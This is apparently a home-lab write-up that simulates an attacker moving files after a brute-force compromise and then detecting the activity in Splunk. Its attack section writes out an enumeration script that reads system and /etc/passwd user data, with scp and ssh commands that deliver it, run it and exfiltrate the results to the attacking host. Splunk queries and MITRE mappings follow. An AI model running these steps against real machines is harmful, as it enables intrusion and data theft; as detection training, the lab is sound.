




# File Transfer

## Objective

To simulate how an attacker can transfer files after being granted access to a victim's machine. File transfer can be used to deliver payloads (scripts, malware) or to exfiltrate sensitive data. Splunk will allow us to monitor both Stealthy (SCP) and noisy (Netcat) transfers. 

## Tool Used
- **SCP (Secure Copy)** - Stealthy , uses SSh encryption , harder to detect
- **Netcat (nc)** - Simple, flexible , but noisy and detected through unusual ports. 

## Enumeration Script Transfer 

Prepare a script **enumeration.sh** to collect data about the system and give the file executable privileges. 


```
nano enumeration.sh
```

```
#!/bin/bash
echo "System Info:" > loot.txt
uname -a >> loot.txt
id >> loot.txt
who >> loot.txt
cut -d: -f1 /etc/passwd >> loot.txt
```

```
chmod +x enumeration.sh
```



Using **SCP** we will combine our the compromised user we received from our brute force attack to send the enumeration executable file over and then copy the `loot.txt` back to Kali. 

### Delivery

```
scp enumeration.sh brute-easy@192.168.64.3:/home/brute-easy/
```

### Exploitation / Execution

```
ssh brute-easy@192.168.64.3 'bash /home/brute-easy/enumeration.sh '
```

### Actions on Objectives


```
ssh brute-easy@192.168.64.3 'ls -l /home/brute-easy/loot.txt | cat'
```

### Exfiltration 

```
scp brute-easy@192.168.64.3:/home/brute-easy/loot.txt ./loot.txt
````



From the picture above we can see that we successfully copied the enumeration file from the attacker (kali) using the **delivery** `scp` command. 

- **100%** - Progress percentage
- **133** - The byte size of the copied file
- **35.2KB/s - How fast the file traveled
- **00:00 - how long the transfer took.


For the **Exploitation/Execution Phase** the `enumeration.sh` file  will either show the contents of the **loot.txt** file if has already been made or it will create a new file and list fresh commands. 

The **Actions on objectives Phase** confirms that the `loot.txt` file has actually been created and the specific details of the file using the `l` flag. 

To confirm that both the `enumeration.sh` and the `loot.txt` files were created we wil check on the victim's machine to confirm if they have been created. 



For the **Exfiltration** phase we can see that that the `loot.txt` has been copied from the victim machine to the attacker . 
- **100%** - Progress percentage
- **715** - The byte size of the copied file
- **134.KB/s** - How fast the file traveled
- **00:00* - - How fast the process took.


## Splunk Log Detection

```
index=* DPT=* |stats count by DPT | sort - count
```



This filter allows us to be able to sort the amount of events that is happening through each of the ports. Our top three ports are listed below. 

- **9997** - This port is used for Splunk forwarding

- **1514** - This port is used for SIEM

- **22** - This is secure shell and this being the 3rd most busiest port is a red flag. SSH is usually limited.


```
index=* DPT=22 |stats count by DST SRC | sort = count
```

This confirms the IP address of the Source IP address and the Destination IP on port 22. It confirms which system is the attacker and which is the victim. 


```
index=* "Password"
```

As a result of a suspicious amount of traffic we can check if there has been any potential / successful SSH login attempts. This shows us 4 successful attempts from randomized ephemeral ports , which highlights potential account compromise. 


```
index=* DPT=22 | timechart count by SRC
```

The time charts gives us a specific outline of the attack volume over time , which would help if this were a brute-force or spraying activity. 


## MITRE ATT&CK
- **Tactics** - `Exfiltration (TA0010)`

- **Techniques** - `Exfiltration over alternative Protocol (T1048)`

- **Sub-Technique:** - `Exfiltration over SSH (T1048.002)` - the use of SCP/SFTP/SSH to transfer data

- **Detection Guidance:** - Detect suspicious transfers through SSH , SSH events that show a successful login, review logs that use one of the three processes for misidreciotn


- **Recommended Respond** - Investigate the source IP, block or limit the IP if confirmed to be malicious, reset the password of the compromised user , and SSH harden the system. 

## Summary
This attack shows how even a small file transfer can be detected through unusual SSH traffic patterns. By correlating a high volume of port 22 activity with successful logins / login failures and file creation, this is able to be distinguished from normal admin work to attack-driven objectives.